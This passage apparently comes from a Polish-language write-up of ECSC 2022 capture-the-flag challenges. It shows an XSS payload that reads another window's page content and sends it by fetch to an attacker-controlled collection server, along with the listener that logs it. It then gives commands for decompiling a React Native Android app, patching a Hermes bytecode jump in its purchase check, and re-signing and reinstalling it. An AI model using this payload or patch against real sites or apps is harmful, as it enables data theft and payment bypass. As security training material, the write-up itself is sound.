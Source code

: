 ```python
app.get('/res', (req, res) => {
    console.log(decodeURIComponent(req.query.q));
    res.send('');
});

app.listen(3000, () => console.log('listening on port 3000'));
```

payload.html:
```html
<script>
    setTimeout(() => {
        if (window.location.hash === '#3') {
            w = window.open('', 'secret');
            setTimeout(() => {
                fetch('https://<url>/res?q=' + encodeURIComponent('hello from #3 ' + w.document.body.innerHTML));
            }, 200);
        } else {
            fetch('https://<url>/res?q=' + encodeURIComponent('hello from xss'));
        }
    }, 500);
</script>
```

## Flag shop
Cel: umożliwić kupno flagi nie mając wystarczającej ilości kasy

Aplikacja jest napisana w react native, po dekompilacji widać że `index.android.bundle` jest skonwertowany do bytecode używając Hermes engine

Narzędzia:
https://ibotpeaches.github.io/Apktool/
https://github.com/niosega/hbctool/tree/draft/hbc-v84
https://github.com/patrickfav/uber-apk-signer

Dekompilacja:

```
apktool d Flagshop-preprod.apk
cp Flagshop-preprod/assets/index.android.bundle .
hbctool dasm index.android.bundle hbc_out
```

Modyfikacja:
Lista OPCode'ów hermesa: https://github.com/facebook/hermes/blob/41752c6589227694ae3a96a34e932c74c9ce3699/include/hermes/BCGen/HBC/BytecodeList.def

![image](https://raw.githubusercontent.com/piratehacker/ecsc-2022-poland-wrietups/master/images/Pasted%20image%2020220715225621.png.png)
Trzeba zmienić JmpTrue na JmpFalse w funkcji buy


Kompilacja, podpisanie i wgranie APK:
```
hbctool asm hbc_out Flagshop-preprod/assets/index.android.bundle
rm .\FlagShop-preprod\dist\*
apktool b Flagshop-preprod
java -jar ./uber-apk-signer-1.2.1.jar --apks ./FlagShop-preprod/dist/
adb uninstall "ctf.ecsc.task.flagstore"
adb install .\FlagShop-preprod\dist\FlagShop-preprod-aligned-debugSigned.apk
```
